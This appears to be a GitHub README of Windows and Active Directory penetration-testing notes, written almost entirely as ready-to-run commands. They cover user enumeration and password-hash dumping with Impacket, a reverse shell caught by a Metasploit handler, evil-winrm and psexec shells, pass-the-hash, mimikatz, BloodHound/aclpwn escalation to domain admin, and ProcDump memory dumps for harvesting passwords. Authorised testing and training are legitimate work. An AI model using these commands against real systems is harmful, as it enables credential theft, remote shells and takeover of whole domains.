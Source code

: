 # WINDOWS Pen Testing scripts and tutorials

## Recon

Enum4Linux will get you Domains, Workgroups, Usernames, etc.
```bash
enum4linux -a [-u USER -p PASS] IP
```

Impackets lookupsid will give you also the users if enum4linux may not work properly

```bash
lookupsid.py IP
```

## Get User Password Hashes

Impackets GetNPUsers tries several attacks to retrieve password hashes

```bash
GetNPUsers.py IP
```

Further on Impackets secretdump can retrieve secret password hashes which only privileged accounts can retrieve, or due to a misconfiguration.
```bash
secretdump.py DOMAIN/USER:PWD@IP 
```


## WinRM 

### File transfer

For the winrm service use winrm/wirnmcp.rb to upload and download files

```bash
ruby winrm/winrmcp.rb IP USER PASSWORD -u LOCAL_FILES+ REMOTE_FOLDER
```

```bash
ruby ./winrm/winrm.rb IP USER PASSWORD -d REMOTE_FILES+ LOCAL_FOLDER
```

### Shell

use evil-winrm for a shell. 

If something wont work execute 

```bash
bash ./msf/create-reverse-shell.sh LOCAL_IP LOCAL_PORT 
```

and execute it on the remote server

while having the following session open at metasploit

```msf
msfconsole

use exploit/multi/handler
set LPORT LOCAL_PORT
set LHOST LOCAL_IP
exploit -j -z 
```

if the meterpreter session is opened in the msfconsole:

```
sessions -i 0
```

to get to the first created session


## SAMBA

```bash
smbclient -L //IP/ 
```

just hit enter for anonymous access. 
You could also try to access it anonymously with

```bash
smbclient //IP/SHARE 
```

Sometimes you can access the SYSVOL share, if it is not cleaned up it may contain some xml files in the Policy folder which contains password hashes


## Kerberos

Checkout Impacket scripts

if you have access rights on the machine you also can use mimikatz. 
Upload it and try it out. 


## BloodHound & aclpwn

Using BloodHound you can generate a path from owned principals to admin domains if an LDAP server is running

1. Upload SharpHound.ps1
2. Exec PS `C:\..\ Import-Module .\SharpHound.ps1`
3. Exec PS `C:\..\ Invoke-BloodHound -CollectionMethod All -DomainController DC -LdapUser USER -LdapPass PASSWORD -IgnoreLdapCert`
4. Download XYZ-BloodHound.zip
5. start neo4j `neo4j console &`
6. start BH `bloodhound`
7. upload zip file
8. use aclpwn `aclpwn -f USER -ft User -t ADMIN_DOMAIN -d DOMAIN -du neo4j -dp neo4jpass -s IP -u USER -p PASSWORD`
9. if successfull you can now use Impackets secretdump.py 'secretsdump.py DOMAIN/USER:PASSWORD@IP'
9.1 or use mimikatz 


## Dump Processes

Get ProcDump https://docs.microsoft.com/en-us/sysinternals/downloads/procdump and upload it to the windows server.
Afterwards you can dump any process by using

```bash
.\procdump64.exe -ma PID DUMP_FILE
```

Download it and analyze it. If Firefox is running, it might be possible that passwods are send plain text. 

## Shells

Next to evil-winrm, meterpreter shells and reverse shells you can get access using psexec.py 

```bash
psexec.py DOMAIN/USER:PASSWORD@IP 
```

or if you cannot crack the NTLM Hash you can access directly using the hash with the pass the hash method (https://en.wikipedia.org/wiki/Pass_the_hash)

```bash
psexec.py -hashes LMHASH:NTHASH DOMAIN/USER@IP
```

## Privilege Escalation

### Mimikatz
Mimikatz has several options, from exploiting kerberos over pass the hash.
Look at https://github.com/gentilkiwi/mimikatz/wiki

### BloodHound and aclpwn 
see above

### Enumeration (not windows specific)

#### Dump Processes
see above

#### MITM
Getting a local mitm using a proxy for example, we can read traffic and ideally getting passwords in clear. 
Use own adjusted scripts depending on the software. 

#### enumerate whats on a machine
see https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/ for several PS commands to check the server for services, files etc.

